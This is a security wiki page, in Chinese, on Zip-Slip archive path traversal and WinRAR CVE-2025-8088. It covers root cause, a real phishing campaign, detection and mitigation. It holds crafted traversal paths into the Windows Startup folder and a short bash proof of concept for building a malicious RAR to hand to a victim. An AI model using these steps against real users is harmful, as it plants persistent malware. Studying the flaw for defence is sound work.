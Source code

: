 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## 概述

许多归档格式（ZIP、RAR、TAR、7-ZIP等）允许每个条目携带其自己的**内部路径**。当提取工具盲目地尊重该路径时，包含`..`或**绝对路径**（例如`C:\Windows\System32\`）的构造文件名将被写入用户选择的目录之外。
这种类型的漏洞被广泛称为*Zip-Slip*或**归档提取路径遍历**。

后果从覆盖任意文件到通过在**自动运行**位置（如Windows *启动*文件夹）放置有效载荷直接实现**远程代码执行（RCE）**。

## 根本原因

1. 攻击者创建一个归档，其中一个或多个文件头包含：
* 相对遍历序列（`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`）
* 绝对路径（`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`）
2. 受害者使用一个信任嵌入路径而不是对其进行清理或强制在所选目录下提取的易受攻击工具提取归档。
3. 文件被写入攻击者控制的位置，并在系统或用户下次触发该路径时执行/加载。

## 真实案例 – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR for Windows（包括`rar` / `unrar` CLI、DLL和便携源）在提取过程中未能验证文件名。
一个包含条目的恶意RAR归档，例如：
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
将最终**位于**所选输出目录之外，并位于用户的*启动*文件夹内。登录后，Windows会自动执行其中的所有内容，从而提供*持久* RCE。

### 制作 PoC 压缩档案 (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
选项使用：
* `-ep`  – 按照给定的方式存储文件路径（**不**修剪前导 `./`）。

将 `evil.rar` 交给受害者，并指示他们使用易受攻击的 WinRAR 版本进行解压。

### 观察到的实际利用

ESET 报告了 RomCom (Storm-0978/UNC2596) 针对 RAR 压缩文件的网络钓鱼活动，利用 CVE-2025-8088 部署定制的后门并促进勒索软件操作。

## 检测提示

* **静态检查** – 列出归档条目，并标记任何包含 `../`、`..\\`、*绝对路径* (`C:`) 或非规范 UTF-8/UTF-16 编码的名称。
* **沙箱提取** – 使用 *安全* 提取器（例如，Python 的 `patool`、7-Zip ≥ 最新版、`bsdtar`）解压到一次性目录，并验证结果路径保持在该目录内。
* **端点监控** – 在 WinRAR/7-Zip 等打开归档后，警报新可执行文件写入 `Startup`/`Run` 位置。

## 缓解与加固

1. **更新提取器** – WinRAR 7.13 实现了适当的路径清理。用户必须手动下载，因为 WinRAR 缺乏自动更新机制。
2. 尽可能使用 **“忽略路径”** 选项提取归档（WinRAR: *提取 → "不提取路径"*）。
3. 在 **沙箱** 或虚拟机中打开不受信任的归档。
4. 实施应用程序白名单，并限制用户对自动运行目录的写入访问。

## 其他受影响/历史案例

* 2018 – Snyk 发布的大规模 *Zip-Slip* 通告，影响许多 Java/Go/JS 库。
* 2023 – 7-Zip CVE-2023-4011 在 `-ao` 合并期间类似的遍历。
* 任何未能在写入之前调用 `PathCanonicalize` / `realpath` 的自定义提取逻辑。

## 参考文献

- [BleepingComputer – WinRAR 零日漏洞被利用在归档提取中植入恶意软件](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 更新日志](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip 漏洞分析](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}

